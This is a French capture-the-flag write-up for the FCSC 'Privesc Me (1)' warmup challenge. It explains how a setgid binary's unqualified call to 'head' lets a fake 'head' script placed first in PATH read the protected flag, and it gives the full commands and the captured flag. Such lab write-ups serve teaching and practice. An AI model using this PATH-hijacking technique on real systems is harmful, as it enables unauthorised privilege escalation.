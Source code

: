 # Privesc Me (1) - Warmup - 25 pts

> Un challenge d'échauffement vous attend dans le dossier `stage0`. À vous de trouver un moyen d'augmenter vos privilèges. 
>
> `ssh -p7005 challenger@challenges1.france-cybersecurity-challenge.fr` (mot de passe : `challenger`.) 
>
> *Note : cet environnement est partagé entre les 4 challenges `Privesc Me`. Le dossier /tmp est nettoyé fréquemment.*

On se connecte en SSH comme demandé et un gros message en rouge nous accueille :

```
*****************************************************************************************************
*****************************************************************************************************
You can create yourself a random directory inside /tmp directory to start creating scripts if needed.
*****************************************************************************************************
*****************************************************************************************************

challenger@privescme:~$ 
```

```
challenger@privescme:~$ ls
stage0  stage1  stage2  stage3
challenger@privescme:~$ cd stage0
challenger@privescme:~/stage0$ ls -l
total 28
-r--r----- 1 root stage0_privileged    70 Apr 25 20:12 flag.txt
-r-xr-sr-x 1 root stage0_privileged 16792 Apr 25 20:14 stage0
-r--r--r-- 1 root stage0_privileged   223 Apr 25 20:12 stage0.c
```

Le binaire `stage0` a un bit *setgid* ce qui signifie que nous l'exécutons comme si nous étions le groupe propriétaire c'est-à-dire `stage0_privileged`, ça tombe bien car contrairement à nous, il a le droit le lire `flag.txt` !

On suppose que `stage0.c` est le code source du binaire :

```c
challenger@privescme:~/stage0$ cat stage0.c 
#define _GNU_SOURCE 
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char const *argv[]) {
    setresgid(getegid(), getegid(), getegid());
    system("head -c5 flag.txt");
    return 0;
}
```

Et si on lance le binaire :

```
challenger@privescme:~/stage0$ ./stage0 
FCSC{challenger@privescme:~/stage0$ 
```

Cela exécute la commande `head -c5 flag.txt` qui affiche les 5 premiers caractères du fichier. Pour information, quand on exécute une commande Linux, le shell va regarder dans tous les dossiers contenus dans la variables `PATH` à la recherche d'un fichier exécutable du nom de la commande. On a le droit de créer un dossier dans `/tmp.` alors créons un fichier `head` exécutable et ajoutons le dossier à notre `PATH` !

```
challenger@privescme:~/stage0$ mkdir /tmp/ribt
challenger@privescme:~/stage0$ cat > /tmp/ribt/head
#!/bin/bash
cat flag.txt
challenger@privescme:~/stage0$ chmod +x /tmp/ribt/head
challenger@privescme:~/stage0$ PATH=/tmp/ribt:$PATH
challenger@privescme:~/stage0$ ./stage0
FCSC{e5dc17021365baa6719ea48311873d621a3e00fa6f9c41bd2efb4e6c48bf4090}
```

